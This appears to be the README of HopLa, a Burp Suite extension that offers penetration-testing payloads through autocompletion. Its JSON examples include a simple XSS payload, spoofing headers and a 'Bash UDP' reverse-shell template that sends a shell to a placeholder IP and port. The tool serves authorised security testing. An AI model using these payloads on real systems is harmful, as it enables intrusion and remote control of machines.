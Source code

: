 # HopLa

💥 All the power of PayloadsAllTheThings, without the overhead. 
This extension adds autocompletion support and useful payloads in Burp Suite to make your intrusion easier.


![Demo GIF](img/demo.gif)

## Getting started


### Installation

 * Download the jar file from the release directory
 * Add it to Burp Suite using the Extender tab

### Build

Execute `gradle build` and you'll have the plugin ready in `releases/HopLa.jar`.

## Usage

By default HopLa is shipped with default payloads. You can add yours by loading a custom JSON file in the the menu. 

At the first usage HopLa creates a JSON file containing all the payloads in the jar file directory.

Press `Ctrl+Q` to display the payload library menu.

You can disable the global autocompletion in the top menu.

For i3, add the following line to `$HOME/.config/i3/config` for floating frame:

```
for_window [class=".*burp-StartBurp.*" title="^ $"] floating enable
```

### How to add payloads

The JSON payloads file follow the structure:

```json
{
    "categories": [
        {
            "name": "XSS",
            "values": [
                {
                    "name": "Simple",
                    "value": "<script>alert(1)</script>"
                },
                {
                    "name": "Multiline",
                    "value": "AAAA\nBBBB"
                },
                {
                    "name" : "Nested XSS menu",
                    "values": [
                        {
                            "name": "Simple 2",
                            "value": "<script>alert(1)</script>"
                        }
                    ]
                }
            ]
        }
    ],
    "keywords": [
        {
            "name": "Headers",
            "values": [
                "X-Forwarded-For",
                "X-Originally-Forwarded-For",
                "X-Originating-Ip",
                "X-Originating-IP"
            ]
        }
    ]
}
```
There is no nesting limit.

You can automatically add a prompt dialog:
```json
{
    "name":  "Bash UDP",
    "value":  "sh -i >& /dev/udp/§IP§/§PORT§ 0>&1",
    "prompt": ["IP","PORT"]
},
```

To add only keywords that do not appear in the menu, you can add them in the keywords category:

```json
{
    "keywords": [
        {
            "name": "Headers",
            "values": [
                "X-Forwarded-For",
                "X-Originally-Forwarded-For",
                "X-Originating-Ip",
                "X-Originating-IP"
            ]
        }
    ]
}
```

## Roadmap

* Support custom key binding for payload menu

## Thanks To

 * https://github.com/Static-Flow/BurpSuiteAutoCompletion
 * https://github.com/d3vilbug/HackBar
 * https://github.com/swisskyrepo/PayloadsAllTheThings

Thanks a lot for your awesome work !

## License

Released under BSD 3-Clause License see LICENSE for more information

Please feel free to report bugs, suggest features, or send pull requests.
